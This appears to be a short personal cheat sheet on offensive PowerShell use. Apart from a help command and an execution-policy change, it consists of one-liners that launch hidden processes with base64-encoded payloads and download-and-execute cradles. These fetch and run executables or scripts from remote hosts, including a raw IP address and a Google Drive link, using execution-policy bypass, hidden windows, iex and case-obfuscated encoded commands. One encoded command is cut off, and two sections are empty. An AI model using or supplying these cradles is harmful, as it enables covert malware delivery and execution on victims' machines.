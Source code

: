 <!-- TITLE: Powershell -->
<!-- SUBTITLE: A quick summary of Powershell -->

# Get Help
``text
get-help Get-EventLog -ShowWindow
```

# Change Execution policy
```text
Set-executionPolicy -Scope CurrentUser Unrestricted
```

# Execute
```text
%COMSPEC% /B /C start powershell.exe -Command $si = New-Object
System.Diagnostics.ProcessStartInfo;$si.FileName = 'powershell.exe';
$si.Arguments = ' -EncodedCommand [BASE64 PAYLOAD] ';
$si.UseShellExecute = $false;
$si.RedirectStandardOutput = $true;$si.WindowStyle = 'Hidden';
$si.CreateNoWindow = $True;
$p = [System.Diagnostics.Process]::Start($si);
```

# Download and Execute
Good reference for many ways:  https://www.greyhathacker.net/?p=500

rmudge_loader.exe - runs executable

```text
powershell (New-Object System.Net.WebClient).DownloadFile('http://<ip>',c:\temp\test.exe'); (New-Object -com Shell.Application).ShellExecute('c:\temp\test.exe');

PowerShell (New-Object System.Net.WebClient).DownloadFile('http://www.greyhathacker.net/tools/messbox.exe','mess.exe');Start-Process 'mess.exe'

powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

```

```
More
powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('https://drive.google.com/uc?export=download&id=0B1NUTMCAOKBTdVQzTXlUNHBmZUU',"$env:APPDATA\ps.exe");Start-Process ("$env:APPDATA\ps.exe")


## Version1
c:\Windows\System32\cmd.exe /c powershell.exe -w hidden -noni -nop -c "iex(New-Object System.Net.WebClient).DownloadString('http://45.58.34.196:8080/p')"


## Version2
c:\windows\system32\cmd.exe /c PowErsHelL.EXE -eXecUtiONPoLICy bYPass -NOPROfilE -WinDoWSTYlE hiDden -EnCodeDcOmmAnd IAAoAE4AZQB3AC0ATwBiAEoAZQBDAFQAIABzAFkAcwB0AEUAbQAuAG4AZQBUAC4AdwBlAGIAQwBsAEkARQBOAFQAKQAuAEQATwBXAG4AbABvAGEAZABGAEkAbABlACgAIAAdIGgAdAB0AHAAcwA6AC8ALwBqAHQAYQBiA
```

# Execute in memory

# Invoke DLL functions
